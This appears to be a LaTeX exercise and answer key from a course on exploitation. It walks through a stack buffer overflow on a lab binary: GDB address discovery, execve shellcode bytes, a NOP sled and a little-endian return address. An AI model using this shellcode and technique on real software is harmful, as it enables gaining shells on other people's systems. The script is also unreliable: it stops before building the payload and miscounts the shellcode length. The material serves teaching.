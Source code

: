 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{enumerate}
\item[\textbf{3c)}] Run the exploit:
\begin{lstlisting}[style=GDBStyle]
(python3 exploit_phase3.py ; cat) | ./stackx64
\end{lstlisting}
The \texttt{; cat} keeps \texttt{stdin} open to interact with the obtained shell. Verify that you get a shell by typing \texttt{whoami}.

\item[\textbf{3d)}] Explain why the return address must be written in \textbf{little-endian}. Convert the address \texttt{0x7fffffffde10} to little-endian.
\end{enumerate}

\begin{attention}
Addresses may be \textbf{different} between GDB and direct execution. GDB adds environment variables that shift the stack. If the exploit works in GDB but not outside, adjust the address (typically a few dozen bytes of difference).
\end{attention}

\begin{correction}

\textbf{3a)} In GDB:
\begin{lstlisting}[style=GDBStyle]
(gdb) break vulnerable_function
(gdb) run
(gdb) disassemble
   ...
   0x000000000040120e <+24>:  lea    rax,[rbp-0x40]   ; buffer = rbp - 0x40
   ...
(gdb) next   (until after gets)
(gdb) print $rbp - 0x40
$1 = (void *) 0x7fffffffde10
\end{lstlisting}
The buffer address is \texttt{0x7fffffffde10}.

\textbf{3b)} Python3 script for the exploit:
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
import sys

# Shellcode execve("/bin//sh", NULL, NULL) - 25 bytes
shellcode = (
    b"\x48\x31\xf6"
    b"\x56"
    b"\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
    b"\x57\x54\x5f"
    b"\x48\x31\xd2"
    b"\xb0\x3b"
    b"\x0f\x05"
)

offset = 72          # buffer(64) + saved RBP(8)
nop_size = offset - len(shellcode)  # 72 - 25 = 47

# Address inside the NOP sled (middle of buffer)
# Adjust this address based on your GDB output
ret_addr = 0x7fffffffde10 + 20  # point to middle of NOP sled

nop_sled = b"\x90" * nop_size
addr_bytes = ret_addr.to_bytes(8, byteorder='little')


\end{lstlisting}
\end{correction}
\end{exercice}
\end{document}
